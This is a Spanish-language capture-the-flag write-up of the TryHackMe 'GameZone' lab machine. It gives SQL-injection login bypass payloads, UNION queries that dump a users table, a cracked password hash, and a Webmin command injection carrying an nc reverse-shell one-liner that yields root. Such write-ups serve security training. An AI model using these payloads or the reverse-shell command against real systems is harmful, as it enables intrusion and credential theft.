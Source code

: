 ```yaml
---
layout: post
title: GameZone - THM
subtitle: GameZone - THM
tags: [sqli,]
---
```


## Servicio Web 80

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Servicio web 80

![web](../assets/imgs/game/web.png)

Bypaseando el login fzzenado el parámetro user

```
❯ wfuzz -w /usr/share/wordlists/SecLists/Fuzzing/Databases/sqli.auth.bypass.txt -u "http://10.10.149.111/index.php" -X POST -d "username=FUZZ&password=pass&x=17&y=13" -c -t 50 --hh 4517
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.149.111/index.php
Total requests: 96

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000006:   302        110 L    319 W      4502 Ch     "' or 1=1#"                                                           
000000036:   302        110 L    319 W      4502 Ch     "admin' or '1'='1'#"                                                  
000000040:   302        110 L    319 W      4502 Ch     "admin' or 1=1#"                                                      
000000052:   302        110 L    319 W      4502 Ch     "admin'or 1=1 or ''='"                                                
000000080:   302        110 L    319 W      4502 Ch     "root' or '1'='1'#"                                                   
000000084:   302        110 L    319 W      4502 Ch     "root' or 1=1#"                                                       
000000096:   302        110 L    319 W      4502 Ch     "root'or 1=1 or ''='"
```

![sql](../assets/imgs/game/sql.png)

----

#### SQL error based

![in](../assets/imgs/game/in.png)

base de datos y usuario

```
' union select 1,database(),user()-- -
```

![db](../assets/imgs/game/db.png)

Tablas

```
' union select 1,table_name,3 FROM information_schema.tables WHERE table_schema="db"-- -
```

![tabla](../assets/imgs/game/tabla.png)

Columnas

```
' union select 1,column_name,3 from information_schema.columns where table_name="users" and table_schema="db"-- -
```

![col](../assets/imgs/game/col.png)


Registro

```
' union select 1,username,pwd from db.users limit 0,1-- -
```

![pass](../assets/imgs/game/pass.png)

Información extraida:

Base de datos: `db`  
Version: `5.7.27-0ubuntu0.16.04.1`  
Cantidad de tablas: `2`  
Tablas: `post,users`  
Cantidad de columnas: `2`  
Columns de users: `username,pwd`  
Usuario: `agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14:videogamer124`

Identificando hash

```
❯ hashid ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14    
Analyzing 'ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14' 
[+] Snefru-256                                                     
[+] SHA-256                                                                  
[+] RIPEMD-256                                                               
[+] Haval-256                                                                
[+] GOST R 34.11-94                                                          
[+] GOST CryptoPro S-Box                                                     
[+] SHA3-256                                                       
[+] Skein-256                                                                
[+] Skein-512(256)                                                 
```

Cracking

![hash](../assets/imgs/game/hash.png)

### Shell como usuario agent47

```
> ssh agent47@10.10.159.111
```

---

## Escalada de privilegios

Puertos internos abiertos

```
agent47@gamezone:/tmp$ ss -tupln
Netid State      Recv-Q Send-Q                    Local Address:Port                                   Peer Address:Port   
udp   UNCONN     0      0                                     *:10000                                             *:*      
udp   UNCONN     0      0                                     *:68                                                *:*      
tcp   LISTEN     0      80                            127.0.0.1:3306                                              *:*      
tcp   LISTEN     0      128                                   *:10000                                             *:*      
tcp   LISTEN     0      128                                   *:22                                                *:*      
tcp   LISTEN     0      128                      fe80::1%lxdbr0:13128                                            :::*      
tcp   LISTEN     0      128                                  :::80                                               :::*      
tcp   LISTEN     0      128                                  :::22                                               :::*      
```

Remote portForwarding

```
agent47@gamezone:~$ ssh -R 10000:127.0.0.1:10000 noroot@10.9.102.237 -N -f
```

Visitando el puerto 10000 desde el navegaor

![webmin](../assets/imgs/game/webmin.png)

Enumerando la web

```
❯ whatweb http://127.0.0.1:10000
http://127.0.0.1:10000 [200 OK] Cookies[testing], Country[RESERVED][ZZ], HTTPServer[MiniServ/1.580], IP[127.0.0.1], Script[text/javascript], Title[Login to Webmin]
```

Panel de administración usando las crendenciales del usuario `agent47:videogamer124`

![panel](../assets/imgs/game/panel.png)

Exploit:

```
❯ searchsploit -x unix/remote/21851.rb
```

Obteniendo shell

```
http://localhost:10000/file/show.cgi/bin/qwqw2e3e5|rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.102.237 4444 >/tmp/f
```

```
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.102.237] from (UNKNOWN) [10.10.149.111] 53438
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# hostname -I 
10.10.149.111 
```


